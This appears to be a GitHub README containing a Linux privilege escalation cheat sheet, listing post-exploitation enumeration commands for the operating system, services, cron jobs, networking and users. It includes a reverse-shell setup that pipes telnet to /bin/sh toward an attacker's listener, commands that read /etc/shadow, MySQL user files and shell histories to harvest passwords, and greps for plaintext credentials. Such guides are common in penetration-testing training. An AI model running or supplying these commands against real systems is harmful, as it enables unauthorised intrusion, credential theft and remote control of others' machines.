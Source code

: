 ## 𝙏𝙝𝙚 𝙇𝙞𝙣𝙪𝙭 𝙋𝙧𝙞𝙫𝙞𝙡𝙚𝙜𝙚 𝙀𝙨𝙘𝙖𝙡𝙖𝙩𝙞𝙤𝙣 𝘾𝙝𝙚𝙖𝙩𝙨𝙝𝙚𝙚𝙩

## Operating System
What's the distribution type? What version?
```
cat /etc/issue
cat /etc/*-release
cat /etc/lsb-release
```

What's the kernel version? Is it 64-bit?
```
cat /proc/version
uname -a
uname -mrs
rpm -q kernel
dmesg | grep Linux
ls /boot | grep vmlinuz-
```

What can be learnt from the environmental variables?
```
cat /etc/profile
cat /etc/bashrc
cat ~/.bash_profile
cat ~/.bashrc
cat ~/.bash_logout
env
set
```

Is there a printer?
```
lpstat -a
```

## Applications & Services

What services are running? Which service has which user privilege?
```
ps aux
ps -ef
top
cat /etc/services
```

Which service(s) are been running by root? Of these services, which are vulnerable
```
ps aux | grep root
ps -ef | grep root
```

What applications are installed? What version are they? Are they currently running?
```
ls -alh /usr/bin/
ls -alh /sbin/
dpkg -l
rpm -qa
ls -alh /var/cache/apt/archivesO
ls -alh /var/cache/yum/
```

Any of the service(s) settings misconfigured? Are any (vulnerable) plugins attached?
```
cat /etc/syslog.conf
cat /etc/chttp.conf
cat /etc/lighttpd.conf
cat /etc/cups/cupsd.conf
cat /etc/inetd.conf
cat /etc/apache2/apache2.conf
cat /etc/my.conf
cat /etc/httpd/conf/httpd.conf
cat /opt/lampp/etc/httpd.conf
ls -aRl /etc/ | awk '$1 ~ /^.*r.*/
```

What jobs are scheduled?
```
crontab -l
ls -alh /var/spool/cron
ls -al /etc/ | grep cron
ls -al /etc/cron*
cat /etc/cron*
cat /etc/at.allow
cat /etc/at.deny
cat /etc/cron.allow
cat /etc/cron.deny
cat /etc/crontab
cat /etc/anacrontab
cat /var/spool/cron/crontabs/root
```

Any plain text usernames and/or passwords?
```
grep -i user [filename]
grep -i pass [filename]
grep -C 5 "password" [filename]
find . -name "*.php" -print0 | xargs -0 grep -i -n "var $password"   # Joomla
```

## Communications & Networking
What NIC(s) does the system have? Is it connected to another network?
```
/sbin/ifconfig -a
cat /etc/network/interfaces
cat /etc/sysconfig/network
```

What are the network configuration settings? What can you find out about this network? DHCP server? DNS server? Gateway?
```
cat /etc/resolv.conf
cat /etc/sysconfig/network
cat /etc/networks
iptables -L
hostname
dnsdomainname
```

What other users & hosts are communicating with the system?
```
lsof -i
lsof -i :80
grep 80 /etc/services
netstat -antup
netstat -antpx
netstat -tulpn
chkconfig --list
chkconfig --list | grep 3:on
last
w
```

Whats cached? IP and/or MAC addresses
```
arp -e
route
/sbin/route -nee
```

Is packet sniffing possible? What can be seen? Listen to live traffic
```
tcpdump tcp dst 192.168.1.7 80 and tcp dst 10.5.5.252 21

Note: tcpdump tcp dst [ip] [port] and tcp dst [ip] [port]
```

Have you got a shell? Can you interact with the system?
```
nc -lvp 4444    # Attacker. Input (Commands)
nc -lvp 4445    # Attacker. Ouput (Results)
telnet [attackers ip] 44444 | /bin/sh | [local ip] 44445    # On the targets system. Use the attackers IP!
```

## Confidential Information & Users

Who are you? Who is logged in? Who has been logged in? Who else is there? Who can do what?
```
id
who
w
last
cat /etc/passwd | cut -d: -f1    # List of users
grep -v -E "^#" /etc/passwd | awk -F: '$3 == 0 { print $1}'   # List of super users
awk -F: '($3 == "0") {print}' /etc/passwd   # List of super users
cat /etc/sudoers
sudo -l
```

What sensitive files can be found?
```
cat /etc/passwd
cat /etc/group
cat /etc/shadow
ls -alh /var/mail/
```

Anything "interesting" in the home directorie(s)? If it's possible to access
```
ls -ahlR /root/
ls -ahlR /home/
```

Are there any passwords in; scripts, databases, configuration files or log files? Default paths and locations for passwords
```
cat /var/apache2/config.inc
cat /var/lib/mysql/mysql/user.MYD
cat /root/anaconda-ks.cfg
```

What has the user being doing? Is there any password in plain text? What have they been edting?
```
cat ~/.bash_history
cat ~/.nano_history
cat ~/.atftp_history
cat ~/.mysql_history
cat ~/.php_history
```

What user information can be found?
```
cat ~/.bashrc
cat ~/.profile
cat /var/mail/root
cat /var/spool/mail/root
```